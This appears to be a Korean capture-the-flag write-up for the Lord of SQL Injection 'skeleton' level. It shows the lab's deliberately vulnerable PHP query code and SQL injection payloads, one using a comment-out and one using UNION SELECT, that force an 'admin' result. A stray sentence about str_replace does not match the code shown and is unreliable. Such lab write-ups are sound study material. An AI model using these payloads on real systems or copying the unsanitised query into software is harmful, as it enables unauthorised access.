 ## Lord of SQL Injection No. 10- Skeleton
## 문제 출제 의도
1. 주석처리를 할 수 있는지 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id'] == 'admin') solve("skeleton"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결과
+ 금지 문자, 문자열
    - Get 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
+ 풀이 성공 조건
    - 데이터베이스에서 받아온 id 값이 'admin'이면 문제 풀이에 성공한다.
## 문제 해결
1. Query문 추가
   - 다음과 유사한 방법으로 문제를 해결 할 수 있다.
   ~~~
   ?pw=' or id='admin'-- -
   ~~~
   - str_replace 함수는 한번만 실행되기 때문에 밑의 값은 admin이 된다.
2. UNION
    - 다음과 유사한 방법으로 빈 테이블에 추가 값을 가지고 올 수 있다.
    ~~~
    ?pw=' UNION(SELECT 'admin')-- -
    ~~~